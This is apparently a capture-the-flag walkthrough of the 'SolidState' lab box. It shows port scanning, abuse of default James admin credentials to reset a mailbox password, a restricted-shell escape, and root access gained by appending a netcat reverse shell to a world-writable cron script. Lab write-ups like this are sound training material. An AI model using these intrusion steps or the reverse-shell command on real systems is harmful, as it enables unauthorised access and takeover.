


SolidState
- Linux
- Medium
Recon
- Nmap
Nmap scan report for 10.129.29.189 Host is up (0.043s latency). Scanned at 2021-02-18 22:33:54 CET for 418s Not shown: 65528 closed ports PORT STATE SERVICE VERSION 22/tcp open ssh OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0) | ssh-hostkey: | 2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA) | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCp5WdwlckuF4slNUO29xOk/Yl/cnXT/p6qwezI0ye+4iRSyor8lhyAEku/yz8KJXtA+ALhL7HwYbD3hDUxDkFw90V1Omdedbk7SxUVBPK2CiDpvXq1+r5fVw26WpTCdawGKkaOMYoSWvliBsbwMLJEUwVbZ/GZ1SUEswpYkyZeiSC1qk72L6CiZ9/5za4MTZw8Cq0akT7G+mX7Qgc+5eOEGcqZt3cBtWzKjHyOZJAEUtwXAHly29KtrPUddXEIF0qJUxKXArEDvsp7OkuQ0fktXXkZuyN/GRFeu3im7uQVuDgiXFKbEfmoQAsvLrR8YiKFUG6QBdI9awwmTkLFbS1Z | 256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA) | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBISyhm1hXZNQl3cslogs5LKqgWEozfjs3S3aPy4k3riFb6UYu6Q1QsxIEOGBSPAWEkevVz1msTrRRyvHPiUQ+eE= | 256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519) |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMKbFbK3MJqjMh9oEw/2OVe0isA7e3ruHz5fhUP4cVgY 25/tcp open smtp? |_smtp-commands: Couldn't establish connection on port 25 80/tcp open http Apache httpd 2.4.25 ((Debian)) | http-methods: |_ Supported Methods: HEAD GET POST OPTIONS |_http-server-header: Apache/2.4.25 (Debian) |_http-title: Home - Solid State Security 110/tcp open pop3? 119/tcp open nntp? 4555/tcp open rsip? 18683/tcp filtered unknown Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Port 25 / 4555
-
JAMES Remote Administration Tool 2.3.2 -> James Mail Server
- Creds root:root (Default creds)
- We log in to check users and reset their passwords, looking for reading their mail.
╰─❯ telnet 10.129.29.189 4555 Trying 10.129.29.189... Connected to 10.129.29.189. Escape character is '^]'. JAMES Remote Administration Tool 2.3.2 Please enter your login and password Login id: root Password: root Welcome root. HELP for a list of commands setpassword mindy pass1234 Password for mindy reset- We have luck with mindy's mail.
╰─❯ telnet 10.129.29.189 110 Trying 10.129.29.189... Connected to 10.129.29.189. Escape character is '^]'. USER mindy PASS pass1234 LIST +OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready +OK +OK Welcome mindy +OK 2 1945 1 1109 2 836 . RETR 1 +OK Message follows Return-Path: <mailadmin@localhost> Message-ID: <5420213.0.1503422039826.JavaMail.root@solidstate> MIME-Version: 1.0 Content-Type: text/plain; charset=us-ascii Content-Transfer-Encoding: 7bit Delivered-To: mindy@localhost Received: from 192.168.11.142 ([192.168.11.142]) by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 798 for <mindy@localhost>; Tue, 22 Aug 2017 13:13:42 -0400 (EDT) Date: Tue, 22 Aug 2017 13:13:42 -0400 (EDT) From: mailadmin@localhost Subject: Welcome Dear Mindy, Welcome to Solid State Security Cyber team! We are delighted you are joining us as a junior defense analyst. Your role is critical in fulfilling the mission of our orginzation. The enclosed information is designed to serve as an introduction to Cyber Security and provide resources that will help you make a smooth transition into your new role. The Cyber team is here to support your transition so, please know that you can call on any of us to assist you. We are looking forward to you joining our team and your success at Solid State Security. Respectfully, James . RETR 2 +OK Message follows Return-Path: <mailadmin@localhost> Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate> MIME-Version: 1.0 Content-Type: text/plain; charset=us-ascii Content-Transfer-Encoding: 7bit Delivered-To: mindy@localhost Received: from 192.168.11.142 ([192.168.11.142]) by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581 for <mindy@localhost>; Tue, 22 Aug 2017 13:17:28 -0400 (EDT) Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT) From: mailadmin@localhost Subject: Your Access Dear Mindy, Here are your ssh credentials to access the system. Remember to reset your password after your first login. Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. username: mindy pass: P@55W0rd1!2@ Respectfully, James- There is also an exploit but it needs user interaction.
Shell as mindy
-
We log with the creds
mindy:P@55W0rd1!2@on SSH. But we find we are in a restricted shell - After trying several bypasses (from here), we find that we can log with noprofile on bash.
╰─❯ ssh mindy@10.129.29.189 -t 'bash --noprofile' mindy@10.129.29.189's password: ${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ id uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)
- After trying several bypasses (from here), we find that we can log with noprofile on bash.
Privilege escalation
Now with an interactive shell, we enumerate to find a possible privilege escalation.
- With pspy we find that user root are executing
/opt/tmp.py. We have write permissions over this file.
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ ls -ld tmp.py
-rwxrwxrwx 1 root root 248 Feb 18 17:33 tmp.py
- Adding our reverse shell to script
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ echo "os.system('nc -e /bin/bash 10.10.14.58 5555')" >> tmp.py
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ cat tmp.py
#!/usr/bin/env python
import os
import sys
try:
os.system('rm -r /tmp/* ')
except:
sys.exit()
os.system('nc -e /bin/bash 10.10.14.58 5555')
- Root reverse shell
